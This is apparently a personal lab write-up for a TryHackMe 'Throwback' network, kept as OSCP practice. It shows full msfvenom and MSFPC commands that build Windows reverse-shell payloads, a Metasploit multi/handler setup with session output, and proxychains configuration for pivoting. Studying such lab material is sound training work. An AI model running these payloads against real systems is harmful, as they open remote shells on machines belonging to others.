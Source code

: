 # Yo Dawg, I heard you like proxies

Firstly to setup a meterpreter shell to then setup the proxychaining required for task I will use a tool I have seen in other github repositories about taking the OSCP. [MSFPC](https://github.com/g0tmi1k/msfpc). Install on a kali linux with:
```bash
apt install -y msfpc
```
or the THM AttackBox
```bash
curl -k -L "https://raw.githubusercontent.com/g0tmi1k/mpc/master/msfpc.sh" > /usr/local/bin/msfpc
chmod 0755 /usr/local/bin/msfpc
```
![msfpcsetup](msfpc.png)
Initially I tried:
```bash
root@ip-10-10-90-140:~# msfpc windows 10.10.90.140
 [*] MSFvenom Payload Creator (MSFPC v1.4.5)
 [i]   IP: 10.10.90.140
 [i] PORT: 443
 [i] TYPE: windows (windows/meterpreter/reverse_tcp)
 [i]  CMD: msfvenom -p windows/meterpreter/reverse_tcp -f exe \
  --platform windows -a x86 -e generic/none LHOST=10.10.90.140 LPORT=443 \
  > '/root/windows-meterpreter-staged-reverse-tcp-443.exe'

 [i] windows meterpreter created: '/root/windows-meterpreter-staged-reverse-tcp-443.exe'

 [i] MSF handler file: '/root/windows-meterpreter-staged-reverse-tcp-443-exe.rc'
 [i] Run: msfconsole -q -r '/root/windows-meterpreter-staged-reverse-tcp-443-exe.rc'
 [?] Quick web server (for file transfer)?: python3 -m http.server 8080
 [*] Done!
```

One thing I am surprised to learn is that it is only meterpreter payloads, which you are only allowed one of in the OSCP, but the otherwise its does awesome automation on a typing intensive task. It solves what its sets out to do and extends user capabilities. I have heard of g0tmi1k from privesc blogs, which are a extremely informative resource.

I then realised while building my [Archive](https://github.com/7RU7H/Archive) Metasploit section that I would need to further configure the LHOST address on the payload because of the Throwback using the inet address so as cool as that tool is, I'll just go it the manual way, but happy that there is a simple automated option.

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.50.96.34 LPORT=4444
```

Re-wget-ed the shell.exe and setup msfconsole multi/hander to listen for the connection back. Start a listener, set payload, configure options, bang head off the keys: E X P L O I T
```msfconsole
use multi/handler
set payload windows/x64/meterpreter/reverse_tcp # corrected this to add x64
set LHOST $LISTENING-IP
set LPORT $LISTENING-PORT
exploit
```

![msfhandler](Screenshots/ydp-metersetup.png)
The output:
```msfconsole
[*] Started reverse TCP handler on 10.50.96.34:4444 
[*] Sending stage (176195 bytes) to 10.200.102.219
[*] 10.200.102.219 - Meterpreter session 1 closed.  Reason: Died
[*] Meterpreter session 1 opened (10.50.96.34:4444 -> 10.200.102.219:50774) at 2022-04-20 20:47:43
```
So I tried regular shell not meterpreter:
```bash
root@ip-10-10-90-140:~#  msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=10.50.96.34 LPORT=4444
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe
```
Configured the handler:
```msfconsole
# changed the payload
msf5 exploit(multi/handler) > set payload windows/shell/reverse_tcp
payload => windows/shell/reverse_tcp
```
Also downloaded it to `Windows\TEMP` for the global writablity the directory offers, just in case. It hung on this:
```msfconsole
[*] Started reverse TCP handler on 10.50.96.34:4444 
[*] Encoded stage with x86/shikata_ga_nai
[*] Sending encoded stage (267 bytes) to 10.200.102.219
[*] Command shell session 6 opened (10.50.96.34:4444 -> 10.200.102.219:51027) at 2022-04-20 21:01:59 +0100

msf5 exploit(multi/handler) > sessions -i 6
[*] Starting interaction with 6...

[*] 10.200.102.219 - Command shell session 6 closed.
```

Went back and realised that the previous usage of any msfvenom payload required a tun0 connection:
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=tun0 LPORT=4444 -f exe -o shell.exe`

[meterSUCCESS](yd-meter-success.png)

Now we can continue with the task. Big take away from this is the wonder of pre-setup and ironning out ANY network or system configuration many months before an exam. Also that the troubleshooting and networking I learnt from the pk100 was so helpful in both mindset and in knowledge to solve these problems. Better solve then once or twice now than later.

[meterSUCCESS](yd-autoroute-setup.png)

Configure the /etc/proxychains.conf

```vim
#socks4         127.0.0.1 9050
socks4 127.0.0.1 1080
```
